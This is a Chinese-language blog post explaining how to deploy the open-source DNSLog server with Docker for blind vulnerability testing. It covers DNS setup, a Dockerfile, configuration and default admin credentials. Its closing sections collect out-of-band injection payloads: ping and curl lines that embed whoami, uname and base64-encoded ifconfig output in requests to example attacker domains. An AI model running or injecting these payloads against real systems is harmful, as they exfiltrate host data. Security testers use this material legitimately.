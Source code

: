 Title:使用docker搭建dnslog服务器：python版开源cloudeye的部署
Date: 2018-01-04 10:20
Category: 工具相关
Tags: dnslog,docker
Slug: 
Authors: bit4
Summary: python版开源cloudeye的部署



本文档主要记录使用docker搭建dnslog的过程。使用如下项目版本，基于[原版](https://github.com/BugScanTeam/DNSLog)做了一些修改：

https://github.com/bit4woo/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>

![changeNameServer](img/docker+dnslog/changeNameServer.png)

### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/bit4woo/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod +x start.sh
CMD ["./start.sh"]

EXPOSE 80
```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保存settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
#!/bin/bash
python manage.py runserver 0.0.0.0:80
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -d -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导

docker exec -it container_ID_or_name /bin/bash
./start.sh
```



### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。



### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



### 0x4、payload使用技巧

**兼容windows和linux**

```bash
#方法一、||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com

#方法二、群里大佬发了一个兼容windows和Linux的ping命令!!!6666
ping -nc 3 xxx.test.0v0.com
```



**命令优先执行**

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边


使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

测试效果如下图:

![command_first](img/docker+dnslog/command_first.png)



**消除空格(Linux下)**

```bash
id|base64 #使用base64对执行的结果进行编码

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法

curl test.0v0.com/`ifconfig |base64 |tr -d '\n'`
#相同的效果
```

![base64](img/docker+dnslog/base64.png)

**window下的curl**

```bash
start http://%OS%.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```



### 0x5、常用payload汇总



```bash
#1.判断系统类型(windows\linux通用)
ping `uname`.0v0.com || ping %OS%.0v0.com

#2.ping，dns类型payload(windows\linux通用)
ping -nc 3 xxx.0v0.com

======================================Linux分割线=====================================

#3.从DNS记录中获取源IP地址
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com

#4.获取命令结果
curl test.0v0.com/`ifconfig|base64 -w 0`

#5.当频繁请求时，如果使用固定的域名，服务器可能不会发起请求，而是使用缓存，也就是说我们的某次请求将有可能收不到DNS请求。
#下面这个payload可以提供变化的子域名,保证每次都能真正发起DNS请求。
ping -c 3 `date +%H-%M-%S`.test.0y0.link

```

